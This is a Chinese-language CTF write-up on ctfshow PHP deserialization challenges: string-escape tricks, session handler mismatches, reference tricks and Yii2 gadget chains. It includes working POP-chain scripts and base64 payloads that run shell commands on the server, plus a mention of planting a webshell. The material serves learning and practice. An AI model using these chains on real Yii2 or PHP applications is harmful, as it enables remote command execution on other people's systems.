#### php反序列化的几大特性

1.php在反序列化时，底层代码是以`;`作为字段的分隔，以`}`作为结尾，并且是**根据长度判断内容** ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 。

- 注意，字符串序列化是以`;}`结尾的，但对象序列化是直接`}`结尾
- php反序列化字符逃逸，就是通过这个结尾符实现的，结尾符后面的内容不会影响php反序列化的结果

2.当长度不对应的时候会出现报错

#### 反序列化字符逃逸

反序列化之所以存在字符串逃逸，最主要的原因是代码中存在针对序列化后的字符串进行了过滤操作（变多或者变少）

反序列化字符逃逸问题根据过滤函数一般分为两种，字符数增多和字符数减少

##### 字符增多

```php
<?php
class name{
    public $username;
    public $password;

    public function __construct($username,$password){
        $this->username=$username;
        $this->password=$password;
    }
}
$str1 = new name("a","b");
echo serialize($str1);
//输出结果:
O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:1:"b";}
```

问：如果我能控制进行反序列化的字符串，该如何使var_dump打印出来的password对应的值是`123456`，而不是`b`？

如果我们之间修改password的值的话，必然会因为字符串的个数不一样而导致报错

- 正常情况下反序列化字符串**$str1**的值为`O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:1:"b";}`

此时我们加上替换函数

```php
<?php
class name{
    public $username;
    public $password;

    public function __construct($username,$password){
        $this->username=$username;
        $this->password=$password;
    }
}
function filter($s){
    return str_replace("x","yy",$s);
}
$str1 = new name("a","b");
```

那么把username的值变为`x`，当完成序列化，filter函数处理后的结果为

```php
O:4:"name":2:{s:8:"username";s:1:"x";s:8:"password";s:1:"b";}//替换前
O:4:"name":2:{s:8:"username";s:1:"yy";s:8:"password";s:1:"b";}//替换后
```

替换成功了，然后我们进行反序列化会发现反序列化失败了，这是因为替换后的字符串的长度不对应导致的

- 所以，我们是否可以利用多出来的字符串做一些坏事？

想要password是`123456`，反序列化化前的字符串要是 `O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:6:"123456";}`

如果说我们输入的是

`O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:6:"123456";}";s:8:"password";s:1:"b";}`

那么此时我们就需要把`";s:8:"password";s:6:"123456";}`给挤出来，让`";s:8:"password";s:1:"b";}`失效，我们该如何构造字符逃逸呢？

已知admin会换成hacker，多出一个字符，我们对比替换前后的字符再加上我们需要构造的序列化字符串

```
O:4:"name":2:{s:8:"username";s:2:"ax";s:8:"password";s:1:"b";}//替换前
O:4:"name":2:{s:8:"username";s:2:"ayy";s:8:"password";s:1:"b";}//替换后
O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:6:"123456";}";s:8:"password";s:1:"b";}//需要构造的序列化字符串
```

那么我们需要逃逸的字符串就是

```
";s:8:"password";s:6:"123456";}//个数为31
```

需要逃逸31个字符，一个x可以换成2个y，多出一个字符，那我们构造31个x，这样替换后多出来的31个y就可以把我们需要逃逸的字符串挤出来


上下进行对比，可以看到username的内容的长度是一致的，此时`s:8:"password";s:6:"123456";}`就替换掉了`s:8:"password";s:1:"b";}`的内容，因为两个变量的长度都是和内容对应一致的，那么此时反序列化操作是不会受影响的，多余的子串会被抛弃

##### 字符减少

```php
<?php
class name{
    public $username;
    public $password;

    public function __construct($username,$password){
        $this->username=$username;
        $this->password=$password;
    }
}
function filter($s){
    return str_replace("xx","y",$s);
}
$str1 = new name("a","b");
```

问：如果我能控制进行反序列化的字符串，该如何使var_dump打印出来的password对应的值是`123456`，而不是`biubiu`？

正常情况下反序列化字符串**$str1**的值为 `O:4:"name":2:{s:8:"username";s:1:"a";s:8:"password";s:1:"b";}`

如果我们的username的值是xx呢？

```
O:4:"name":2:{s:8:"username";s:2:"y";s:8:"password";s:1:"b";}
```

成功替换并且少了一个字符，那么我们该如何利用字符减少的方法去进行字符串逃逸呢？

假如我们需要让password的值为123456，那么我们最终要实现的序列化字符串就是

```
O:4:"name":2:{s:8:"username";s:2:"y";s:8:"password";s:6:"123456";}
```

那么此时我们就需要让`";s:8:"password";s:1:"b";}`失效，我们该如何构造字符逃逸呢？

```
O:4:"name":2:{s:8:"username";s:2:"y";s:8:"password";s:1:"b";}“;s:8:"password";s:6:"123456";}
```

和字符增多不同的是，需要逃逸的字符是不变的，但是我们需要计算的长度是要使之失效的字符的长度

```
";s:8:"password";s:1:"b";}//26个
```

需要替换掉26个字符，已知传入xx会替换成y，减少一个字符，那我们需要让最后的y是26个，那么就需要传入52个x


从图中可以看到，username的上下的长度是一样的，所以反序列化不会受影响

### 总结

- 当字符增多：在输入的时候再加上精心构造的字符。经过过滤函数，字符变多之后，就把我们构造的给挤出来。从而实现字符逃逸
- 当字符减少：在输入的时候再加上精心构造的字符。经过过滤函数，字符减少后，会把原有的吞掉，使构造的字符实现代替

### 题目

```php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

setcookie('msg',base64_encode($umsg));    echo 'Your message has been sent';

- PHP 的 `setcookie()` 函数被用来设置一个名为 `msg` 的 cookie，其值是对变量 `$umsg` 进行 Base64 编码后的结果。接着，页面向用户显示一条消息：“Your message has been sent”。

可以在注释中看到有一个message.php文件，访问一下

```php
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

正常来说，这里只有from，msg，to传递值，即这三个属性是可控的

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token = "user";
    public function __construct(){
        $this->from = "1";
        $this->msg = "2";
        $this->to = "3";
    }
}
$m = new message();
$a = serialize($m);
echo $a;
?>
O:7:"message":4:{s:4:"from";s:1:"1";s:3:"msg";s:1:"2";s:2:"to";s:1:"3";s:5:"token";s:4:"user";}
```

题目告诉我们我们需要将tooken改成admin才能拿到flag，那就用字符串逃逸试试

首先要知道这里是将`fuck`修改成了`loveU`,由4个字符长度，变成了5个，长度发生了变化，导致了反序列化字符串结构改变。

那我们测试一下

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token = "user";
    public function __construct(){
        $this->from = "1fuck";
        $this->msg = "2";
        $this->to = "3";
    }
}
$msg = new message();
$umsg =str_replace('fuck', 'loveU', serialize($msg));
echo $umsg;
?>
O:7:"message":4:{s:4:"from";s:5:"1loveU";s:3:"msg";s:1:"2";s:2:"to";s:1:"3";s:5:"token";s:4:"user";}    

```

可以看到这里的fuck被换成了loveU,所以我们在原来的字符串上加入我们想要改的

O:7:"message":4:{s:4:"from";s:1:"1";s:3:"msg";s:1:"2";s:2:"to";s:1:"3";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}

算一下我们添加的字符串有27个字符，已知一个fuck会换成一个loveU,多出来一个字符，所以我们需要构造27个fuck进行字符串逃逸

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token = "user";
    public function __construct(){
        $this->from = "1";
        $this->msg = "2";
        $this->to = '3fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
    }
}
$msg = new message();
$umsg =str_replace('fuck', 'loveU', serialize($msg));
echo $umsg;
?>

```

输出的字符串是:

O:7:"message":4:{s:4:"from";s:1:"1";s:3:"msg";s:1:"2";s:2:"to";s:136:"3loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}

因为多出了27个字符，所以后面的";s:5:"token";s:4:"user";}部分的内容会被当作无效部分被忽略

构造payload通过get传入就行了

还有第二种解法也就是非预期解

### 非预期解

直接通过构造一个construct()魔术方法将token的值改成admin，然后将的出来的序列化字符串编码后通过cookie传入就可以拿到flag了

## web263



是一个登录界面

账号密码都写1 试试，结果显示登录错误

抓个包看看



发现cookie那有PHPSESSID，判断应该是session反序列化

那就先介绍一下知识点

### session反序列化

讲到session反序列化，我们需要先了解什么是session

### 概念

#### session

`Session`一般称为“会话控制“，简单来说就是是一种客户与网站/服务器更为安全的对话方式。一旦开启了 `session` 会话，便可以在网站的任何页面使用或保持这个会话，从而让访问者与网站之间建立了一种“对话”机制。不同语言的会话机制可能有所不同，这里我们讲一下PHP session机制

`PHP session`可以看做是一个特殊的变量，且该变量是用于存储关于用户会话的信息，或者更改用户会话的设置，需要注意的是，`PHP Session` 变量存储单一用户的信息，并且对于应用程序中的所有页面都是可用的，且其对应的具体 `session` 值会存储于服务器端，这也是与 `cookie`的主要区别，所以`seesion` 的安全性相对较高。

那我们为什么要用session呢?

我们访问网站的时候使用的协议是http或者https，但是http是一种无状态协议，是没有记忆的，也就是说，每次请求都是独立的，服务器不会记得上一次请求的信息，所以session能用来弥补这个缺点，帮助服务器跟踪用户状态

那session是通过什么来跟踪的呢？这里就用到了sessionID 生成与存储了

当我们首次访问一个网站的时候，此时会话就开始了，就会产生一个独一无二的ID，然后产生了cookie，`cookie`是一个缓存用于一定时间的身份验证，在同一域名下面是全局的，所以说在同一域名下的页面都可以访问到`cookie`,但是大家都知道`cookie`我们是可以进行修改的,所以`cookie`和`session`有本质的不同

当开始一个会话时，PHP会尝试从请求中查找会话ID，（通常通过会话 `cookie`），如果发现请求的`Cookies`、`Get`、`Pos`t中不存在`session id`，PHP 就会自动调用`php_session_create_id`函数创建一个新的会话，并且在`http response`中通过`set-cookie`头部发送给客户端保存

- **Session**：数据存储在服务器端，客户端仅保存一个唯一的会话 ID，用于与服务器通信。
- **Cookie**：数据存储在客户端浏览器中，服务器不存储这些数据。

#### session的产生和存储

session_start()会创建新会话或者重用现会话。如果会话ID是通过GET,POST或者使用cookie提交，则会重用现有会话

当会话自动开始或者通过session_start()手动开始的时候，PHP内部会调用open和read回调函数，会话处理程序可能是PHP默认的，也可能是扩展提供的，也可能是通过session_set_save_handler()设定的用户自定义会话处理程序。通过read回调函数返回的现有会话数据(使用特殊的序列化格式存储)，PHP会自动反序列化数据并且填充$_SESSION超级全局变量

那我们先来看看存储的路径在哪里:

```PHP
<?php 	
	show_source(__FILE__);
	session_start();
	echo session_id();
	echo $_COOKIE["PHPSESSID"];
?>
```





可以发现这些是保存在临时文件目录里面

```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
```

这些是常见的保存位置，那我们接下来看一下php.ini中对session的配置

#### session在php.ini的配置

先看看php.ini中对session的配置

```php
session.save_path = "/tmp"
#session保存到/tmp目录
session.save_handler = files
#session的存储方式。这里是存储为文件
session.serialize_handler = php
#session默认的序列化引擎是php
session.auto_start = 0
#session是否默认打开。即是否默认开启session_start()
sess_sessionid
#session默认是以sess_随机字符串命名
```

PHP session`的存储机制是由`session.serialize_handler`来定义引擎的，默认是以文件的方式存储，且存储的文件是由`sess_sessionid`来决定文件名的，当然这个文件名也不是不变的，如`Codeigniter`框架的 `session`存储的文件名为`ci_sessionSESSIONID

当然文件的内容始终是session的值序列化后的内容

上面也提到了session的序列化引擎，下面介绍了三种引擎

```
php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值
```

在PHP中默认使用的是PHP引擎，如果要修改为其他的引擎，只需要添加代码ini_set('session.serialize_handler', '需要设置的引擎');。

```PHP
<?php
ini_set('session.serialize_handler', 'php');
// ini_set('session.serialize_handler', 'php_binary');
// ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['bao']=$_GET['a'];
```

得到

```php
php:  bao|s:2:"18";

php_binary:       baos:2:"18";

php_serialize(php>5.5.4):        a:1:{s:3:"bao";s:2:"18";}
```

### 反序列化

当会话开始时，session_start()即会话开始时。session就会通过指定的序列化引擎将`$_SESSION`序列化。然后放入文件进行存储。那么当我们再次开启对话的时候他也会进行自动的反序列化来填充`$_SESSION`

```php
session_start()
#session_start()->读取session文件内容->反序列化
$_SESSION['name']='test';
#serialize($_SESSION)->存入文件
```

那么如果此时开发者使用的引擎与默认引擎不同，是不是就会产生歧义，此时我们利用数据的存储形式不同的漏洞是不是就可以任意触发魔术方法进行利用了

也就是说，**Session反序列化都是序列化引擎不一致导致存在安全问题**

## 解题

通过dirsearch扫描目录可以发现一个www.zip，下载解压下来发现有三个php文件

index.php

```php
<?php
	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
?>
```

在index.php 我们发现$_SESSION['limit']我们可以进行控制

check.php

```php
<?php

error_reporting(0);
require_once 'inc/inc.php';
$GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);


if($GET){

	$data= $db->get('admin',
	[	'id',
		'UserName0'
	],[
		"AND"=>[
		"UserName0[=]"=>$GET['u'],
		"PassWord1[=]"=>$GET['pass'] //密码必须为128位大小写字母+数字+特殊符号，防止爆破
		]
	]);
	if($data['id']){
		//登陆成功取消次数累计
		$_SESSION['limit']= 0;
		echo json_encode(array("success","msg"=>"欢迎您".$data['UserName0']));
	}else{
		//登陆失败累计次数加1
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
		echo json_encode(array("error","msg"=>"登陆失败"));
	}
}
```

访问index.php，建立session，并获得cookie，将编码后的字符串放入limit中保存，并刷新



之后访问check.php,让我们的webshell成功写入

访问我们的1.php并用蚁剑连接就行了

## web264

```php
error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    $_SESSION['msg']=base64_encode($umsg);
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

看到注释中有message.php，打开看一下

```php
session_start();
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_SESSION['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

其实就是web262和web263的结合，不能说结合吧，只是利用了session的一些基础知识+字符串逃逸

不过这个题没有设置session反序列化的处理器

先进行字符串逃逸构造我们的序列化字符串



发送后可以看到我们建立了一个会话phpsessid，页面提示我们message发送成功

那我们访问message.php，在cookie里面设置msg的值就可以了

## web265

```php
error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}
```

- $ctfshow->token=md5(mt_rand());

1. **`mt_rand()`**：这是一个PHP函数，用于生成一个随机整数。默认情况下，它会生成一个介于0和`mt_getrandmax()`之间的整数，其中`mt_getrandmax()`是一个很大的数，具体取决于PHP的编译方式和平台。
2. **`md5()`**：这是另一个PHP函数，用于计算给定字符串的MD5哈希值

这道题只需要让password等于token就行了，由于token的值是随机数的md5值，我们无法确定token的具体数值，所以我们可以用php的指针进行解题

### php指针

在PHP中，函数指针（function pointer）是指能够保存函数的引用并将其作为参数传递给其他函数的变量。它允许在运行时动态地引用和调用函数，增强了代码的灵活性和可重用性。

注意：函数指针在PHP中并不是真正的指针，而是一个保存函数引用的变量。它们并不像在底层语言中那样直接操作内存地址。

php中引用(&)的意思是：**不同的名字访问同一个变量内容**。

与Ｃ语言中的指针是有差别的．Ｃ语言中的指针里面存储的是变量的内容，在内存中存放的地址。

#### 变量的引用

PHP 的引用允许你用两个变量来指向同一个内容

```php
<?php
    $a="ABC";
    $b =&$a;
    echo $a;//这里输出:ABC
    echo $b;//这里输出:ABC
    $b="EFG";
    echo $a;//这里$a的值变为EFG 所以输出EFG
    echo $b;//这里输出EFG
?>
```

所以直接构造exp:通过__construct魔术方法构造

```php
<?php

class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct(){
        $this->password=&$this->token;
    }
}
echo serialize(new ctfshowAdmin());
/*
O:12:"ctfshowAdmin":2:{s:5:"token";N;s:8:"password";R:2;}
其中R是指针引用，R:2: 表示password属性指向序列化字符串中的第二个对象
*/

```

将password属性的值指向token的值，password的值随着token的改变而改变

php序列化中大写字母R代表引用类型，值为一个数字，指示是从根开始的、也就是从对象本身开始的第几个项目，从1开始数，如果要引用对象本身，序列化后为`R:1;`如果要引用对象内第一个元素，序列化后则为`R:2`。不论变量间是如何互相引用的，在序列化过程中php无从得知，php只知道哪几个值的地址一模一样，所以php只会将最先出现的值记录下来，后续出现有相同地址的变量就将其值描述为对它的引用。

把序列化后的字符串传入ctfshow参数中就可以了

## web266

```php
highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}
```

### file_get_contents('php://input')

这行代码用于读取原始POST数据。`php://input` 是一个只读流，它允许你读取请求的原始数据。当你使用 `file_get_contents('php://input')` 时，它会返回请求体的内容

### __toString()方法

当一个对象被当作一个字符串被调用，把类当作字符串使用时触发，返回值需要为字符串

这里过滤了ctfshow，那我们就用大小写绕过，因为这里是对$cs进行的过滤验证，所以我们的传参应该是传入这个$cs参数里面

构造payload:

```php
赋值给username和password随便什么都行，因为都会触发__destruct，就会return flag
<?php 
class cTfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
}
echo serialize(new cTfshow());
?>

```

注意hackbar是不能直接传值的，必须传键值对，所以我们用bp发包

### 破坏结构进行析构

就是说，传入一个破坏了反序列化字符串结构的字符串进去，使得，即使异常了，也会析构。



## web267

页面看着也是挺懵的，一时间找不到做题的方向，就只能先看wp了，发现是yii反序列化

### YII反序列化

#### 先讲讲YII框架

Yii 是一个适用于开发 Web2.0 应用程序的高性能PHP 框架。

Yii 是一个通用的 Web 编程框架，即可以用于开发各种用 PHP 构建的 Web 应用。 因为基于组件的框架结构和设计精巧的缓存支持，它特别适合开发大型应用， 如门户网站、社区、内容管理系统（CMS）、 电子商务项目和 RESTful Web 服务等。

Yii 当前有两个主要版本：1.1 和 2.0。 1.1 版是上代的老版本，现在处于维护状态。 2.0 版是一个完全重写的版本，采用了最新的技术和协议，包括依赖包管理器 Composer、PHP 代码规范 PSR、命名空间、Traits（特质）等等。 2.0 版代表新一代框架，是未来几年中我们的主要开发版本。

Yii 2.0 还使用了 PHP 的最新特性， 例如命名空间 和Trait（特质）

#### 漏洞描述

Yii2 2.0.38 之前的版本存在反序列化漏洞，程序在调用unserialize 时，攻击者可通过构造特定的恶意请求执行任意命令

具体链接:[yii反序列化漏洞复现及利用_yii框架漏洞-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120612714)

[Yii2反序列化漏洞(CVE-2020-15148)分析学习 | Extraderの博客](https://www.extrader.top/posts/c79847ee/#Yii2介绍)

先用弱口令登录admin/admin试试，发现可以登录，然后在一番寻找中在about的源代码里面找到了



那就查看view-source

然后page中可以看到多了一行代码



使用大佬的脚本

```php
<?php
 # 请在命令行下执行php yii反序列化.php命令运行此脚本
 # 脚本将生成一个序列化后的字符串，将其保存到文件中，并将其发送到目标服务器执行
 # 目标服务器将反序列化此字符串，并执行命令cat /flag
 # 脚本使用了Faker\Generator类，该类会自动调用IndexAction类的run方法，执行命令cat /flag
 # 脚本使用了yii\db\BatchQueryResult类，该类会自动调用Faker\Generator类的构造函数，并生成一个序列化后的字符串
 # 脚本使用了base64_encode函数对序列化后的字符串进行编码，并输出到命令行

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess='exec';
            $this->id='cat /flag >3.txt';
        }
    }
}
namespace Faker{
    use yii\rest\IndexAction;
    class Generator{
        protected $formatters;
        public function __construct(){
            $this->formatters['close']=[new IndexAction(),'run'];
        }
    }
}
namespace yii\db{
    use Faker\Generator;
    class BatchQueryResult{
        private $_dataReader;
        public function __construct(){
            $this->_dataReader=new Generator();
        }
    }
}
namespace {
    use yii\db\BatchQueryResult;
    echo base64_encode(serialize(new BatchQueryResult()));
}
?>

```

主要就是改checkAccess参数以及id参数,使之可以回显

直接cat flag的话会出现An internal server error occurred.

应该是设置了非调试模式的生产环境运行方式

传参GET:
?r=backdoor/shell&code=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjA6InlpaVxyZXN0XEluZGV4QWN0aW9uIjoyOntzOjExOiJjaGVja0FjY2VzcyI7czo0OiJleGVjIjtzOjI6ImlkIjtzOjE2OiJjYXQgL2ZsYWcgPjMudHh0Ijt9aToxO3M6MzoicnVuIjt9fX19
访问
http://08a2bbcd-9f38-4806-bf8d-902d04e4a1fc.challenge.ctf.show/3.txt

## web268

poc：

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'exec';
            $this->id = 'cp /f* 1.txt';
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['isRunning'] = [new IndexAction(), 'run'];
        }
    }
}
namespace Codeception\Extension{

    use Faker\Generator;

    class RunProcess
    {
        private $processes = [];
        public function __construct(){
            $this->processes[]=new Generator();
        }
    }
}
namespace{


    use Codeception\Extension\RunProcess;

    echo base64_encode(serialize(new RunProcess()));
}

```

**?r=backdoor/shell&code=TzozMjoiQ29kZWNlcHRpb25cRXh0ZW5zaW9uXFJ1blByb2Nlc3MiOjE6e3M6NDM6IgBDb2RlY2VwdGlvblxFeHRlbnNpb25cUnVuUHJvY2VzcwBwcm9jZXNzZXMiO2E6MTp7aTowO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjk6ImlzUnVubmluZyI7YToyOntpOjA7TzoyMDoieWlpXHJlc3RcSW5kZXhBY3Rpb24iOjI6e3M6MTE6ImNoZWNrQWNjZXNzIjtzOjQ6ImV4ZWMiO3M6MjoiaWQiO3M6MTI6ImNwIC9mKiAxLnR4dCI7fWk6MTtzOjM6InJ1biI7fX19fX0=**

然后访问1.txt就行

## web269

```php
<?php 
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess='shell_exec';
            $this->id='cat /flagsa | tee 2.txt';
            //$this->id='ls / | tee 1.txt';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters;
        public function __construct(){
            $this->formatters['render']=[new CreateAction(),'run'];
        }
    }
}
namespace phpDocumentor\Reflection\DocBlock\Tags{
    use Faker\Generator;
    class See{
        protected $description;
        public function __construct(){
            $this->description=new Generator();
        }
    }
}
namespace{
    use phpDocumentor\Reflection\DocBlock\Tags\See;
    class Swift_KeyCache_DiskKeyCache{
        private $keys=[];
        private $path;
        public function __construct(){
            $this->path=new See;
            $this->keys=array(
                "axin"=>array("is"=>"handsome")
            );
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache()));
}
?>

```

?r=backdoor/shell&code=TzoyNzoiU3dpZnRfS2V5Q2FjaGVfRGlza0tleUNhY2hlIjoyOntzOjMzOiIAU3dpZnRfS2V5Q2FjaGVfRGlza0tleUNhY2hlAGtleXMiO2E6MTp7czo0OiJheGluIjthOjE6e3M6MjoiaXMiO3M6ODoiaGFuZHNvbWUiO319czozMzoiAFN3aWZ0X0tleUNhY2hlX0Rpc2tLZXlDYWNoZQBwYXRoIjtPOjQyOiJwaHBEb2N1bWVudG9yXFJlZmxlY3Rpb25cRG9jQmxvY2tcVGFnc1xTZWUiOjE6e3M6MTQ6IgAqAGRlc2NyaXB0aW9uIjtPOjE1OiJGYWtlclxHZW5lcmF0b3IiOjE6e3M6MTM6IgAqAGZvcm1hdHRlcnMiO2E6MTp7czo2OiJyZW5kZXIiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6MTA6InNoZWxsX2V4ZWMiO3M6MjoiaWQiO3M6MjM6ImNhdCAvZmxhZ3NhIHwgdGVlIDIudHh0Ijt9aToxO3M6MzoicnVuIjt9fX19fQ==

正常传入然后访问1.txt就可以了

## web270

```php
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess='shell_exec';
            $this->id='cat /flagsaa | tee 2.txt';
            //$this->id='ls / | tee 1.txt';
        }
    }
}
namespace yii\web{
    use yii\rest\IndexAction;
    class DbSession{
        public $writeCallback;
        public function __construct(){
            $this->writeCallback=[new IndexAction(),'run'];
        }
    }
}
namespace yii\db{
    use yii\web\DbSession;
    class BatchQueryResult{
        private $_dataReader;
        public function __construct(){
            $this->_dataReader=new DbSession();
        }
    }
}
namespace {
    use yii\db\BatchQueryResult;
    echo base64_encode(serialize(new BatchQueryResult()));
}
?>

```

## web271
